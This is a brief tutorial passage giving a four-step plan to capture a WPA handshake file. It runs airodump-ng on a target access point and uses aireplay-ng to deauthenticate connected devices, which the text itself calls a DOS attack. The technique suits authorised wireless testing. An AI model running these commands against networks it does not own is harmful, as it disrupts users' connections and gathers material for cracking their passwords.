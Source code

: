 Now here’s the game plan:
1. - Setup airodump-ng to capture packets and save them
`sudo airodump-ng -c <channel number> --bssid <AP BSSID> <network interface> -w <path for saved packets file>`
2. - While that is running, you’re going to run your de-authentication attack against the device connected to it using the command:
`sudo aireplay-ng -a <BSSID of the AP> --deauth <time> <network interface>`
3. - While the DOS attack is underway, check on your airodump scan. You should see at the right top : WPA handshake: <mac address>. Once you have verified that, you can stop the replay attack and the airodump-ng scan.
4. - great now you have a file.cap !!!
